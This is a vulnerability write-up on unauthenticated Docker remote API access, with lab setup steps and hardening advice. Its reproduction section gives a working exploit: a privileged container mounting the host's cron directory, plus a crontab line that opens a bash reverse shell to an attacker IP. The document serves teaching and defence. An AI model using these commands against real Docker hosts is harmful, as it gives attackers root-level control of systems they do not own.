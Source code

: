 # Docker Unauthorized Access Vulnerability

## Vulnerability Description

Malicious attackers can access Docker servers or containers without authorization. This can result in sensitive data leaks or allow attackers to perform unauthorized actions such as adding, modifying, or deleting containers.

## Environment Setup

Install docker

```
yum install -y docker
```

Modify the `/usr/lib/systemd/system/docker.service` service to start the API interface.

```
ExecStart=/usr/local/bin/dockerd -H tcp://0.0.0.0:2375 -H unix://var/run/docker.sock
```

![image-20220726104747298](../../.gitbook/assets/image-20220726104747298.png)

Restart the docker service.

```
systemctl daemon-reload
systemctl restart docker
```

![image-20220726104829456](../../.gitbook/assets/image-20220726104829456.png)

## 漏洞复现

Entering `ip:2375/version` will list basic information, the same effect as the docker version command.

![image-20220726104904921](../../.gitbook/assets/image-20220726104904921.png)



**Exploit Docker container to write a timed task to bounce a shell**

We can use the unauthenticated Docker remote API to start a container and mount it to the root directory, thus giving us arbitrary read-write privileges. Then we write the reverse shell command into the crontab of the timed task, which can cause the host to bounce the shell.

```
[root@localhost ~]# docker -H tcp://192.168.32.183:2375 run -it --user root --privileged -v /var/spool/cron/:/var/spool/cron/ alpine sh
```

Write to the schedule

```
/ # echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/8088 0>&1' >> /var/spool/cron/root
```

![image-20220726110359885](../../.gitbook/assets/image-20220726110359885.png)

## Security Hardening

Do not enable the Docker remote API service unless necessary. If it is necessary, the following hardening methods can be used:

```
basicCopy codeSet ACLs to only allow trusted source IPs to connect;
Set TLS authentication, the official document for Protecting the Docker daemon socket
```

After the certificate for communication between the client and server is generated, the following command can be used to start the Docker daemon:

```perl
docker -d --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=tcp://10.10.10.10:2375 -H unix:///var/run/docker.sock
```

